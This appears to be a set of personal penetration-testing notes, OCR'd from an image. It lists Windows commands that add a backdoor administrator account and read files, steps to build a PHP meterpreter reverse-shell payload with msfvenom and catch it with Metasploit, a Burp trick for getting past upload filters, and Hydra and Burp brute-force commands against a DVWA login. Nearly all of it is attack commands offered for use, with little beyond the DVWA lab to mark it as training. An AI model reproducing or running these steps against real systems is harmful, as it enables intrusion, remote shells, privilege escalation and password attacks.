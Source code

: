 ```
>|Hostname
>|Whoami
>|tasklist
>|taskkill /PID 3112 /F   //forcefully kills the processes
>|dir c:\
>|net user
>|net user test /add     //add a new user
>|net localgroup Administrators test /add    //add test user to administrators
>|net user test     //to view the details of the user
>|dir c:\ "pin.txt" or this command >! Take pin.txt   //to get content
>|type c:\"pin.txt“   //to get the content of a file
```

# File Upload
If a website allows file upload then create a file to upload
```
>msfvenom ‐p php/meterpreter/reverse_tcp LHOST={myIP}  LPORT=4444 ‐f raw >exploit.php
>use exploit/multi/handler 
>set payload  >php/meterpreter/reverse_tcp (to listen for reverse shell
Upload to server
Access on server (through web browser)
Then can execute commands, and rm to remove

If harder then use burp to try to upload, capture, then set content type to image/jpeg (or whatever)
```

```
Start metasploit
>search handler (looking for multi/handler)
>use {id or name}
>use exploit/multi/handler 
>set payload  >php/meterpreter/reverse_tcp (to listen for reverse shell
>options
>set LHOST {local}
>run
>msfvenom -l payloads | grep php
>msfvenom ‐p php/meterpreter/reverse_tcp LHOST={myIP}  LPORT=4444 ‐f raw >exploit.php
Upload to server
Access on server (through web browser)
Then can execute commands, and rm to remove
```

#Brute forcing on DVWA with Burp and Hydra
```
Set firefox to use burp proxy
Submit request and capture in burp, then send to intruder module
In intruder tab clear all targets and locate password field and add as target
Payloads tab, set wordlist (maybe john.lst)

>hydra -l admin -P /usr/share/wordlists/john.lst 'http-getform://127.0.0.1:42001/vulnerabilities/brute/:username=^USER ^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=7vs4 mhc1q4dnp3f6cgikl01v9q; security=low:F=Username and/or password incorrect'
```
```If CRSF protection in place
As above but targets are token and password field and attack type is “pitchfork”
Second payload Recursive grep
In options tab add new grep extract and select the token to extract (start at offset, end at fixed length)
In options tab in grep - match clear, and add ‘incorrect’
Ensure redirections are set to always
Create a new resource pool with only 1 thread
Start attack
```
